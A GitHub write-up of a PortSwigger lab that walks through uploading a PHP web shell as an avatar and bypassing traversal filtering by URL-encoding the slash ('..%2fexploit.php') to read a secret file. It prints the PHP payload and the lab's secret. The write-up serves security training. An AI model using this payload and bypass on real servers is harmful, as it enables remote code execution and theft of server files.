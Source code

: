 ## Lab Description :


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3fc4c702-6157-4db2-b171-7cc279ebefbd)

## Solution :

Log in and upload an image as your avatar, then go back to your account page.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3b59e77d-c5a5-47e3-b683-577e3f1deff2)

In Burp, go to Proxy > HTTP history. Click the filter bar to open the Filter settings dialog. Under Filter by MIME type, enable the Images checkbox, then apply your changes.


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/fb377783-7559-4f9f-9ca7-f598d53987f4)

In the proxy history, notice that your image was fetched using a GET request to `/files/avatars/<YOUR-IMAGE>` And one post request to `/my-account/avatar` also will be there . Send this two  request to Burp Repeater.

In POST request `/my-account/avatar` we will remove the image content and change the file name to `exploit.php` and add a php script `<?php echo file_get_contents('/home/carlos/secret'); ?> `


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/685964cc-ed07-423a-ad7d-06ed6eb0c82b)


Now go to GET request  `/files/avatars/<YOUR-IMAGE>` and change the file name to exploit.php and send.


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/9d52ac7e-6a0d-44e0-a7c4-4ea5f6a5f74c)

The php script  was displayed as plain text .  

By using file name as `../myexploit.php`

POST REQ-

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a6e3328b-05df-4607-a63d-e8401527d9b0)

GET REQ-

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/9fa80d62-d621-4b53-bf0d-c6b817f1789d)

By using file name as `../myexploit.php` it can be noted that the server is stripping the directory traversal sequence but not  able retrive the data.

Obfuscate the directory traversal sequence by URL encoding the forward slash (/) character, resulting in:

`filename="..%2fexploit.php"`

POST REQ-

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/50bf7281-e63a-4533-a85f-738da9121202)

GET REQ-

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/fbb8fc2b-1997-4f6f-9a76-7c118ba5ed78)

The secret content is `AV27jKwFf2ePRDuJVrXf3IKzBxTN80uk`

Now go to Home page and submit the solution.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/e4083943-5b6a-4d5f-b4ea-cca07d76adb7)

Lab solved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/231f4043-235b-44ea-a674-9125b62d555a)




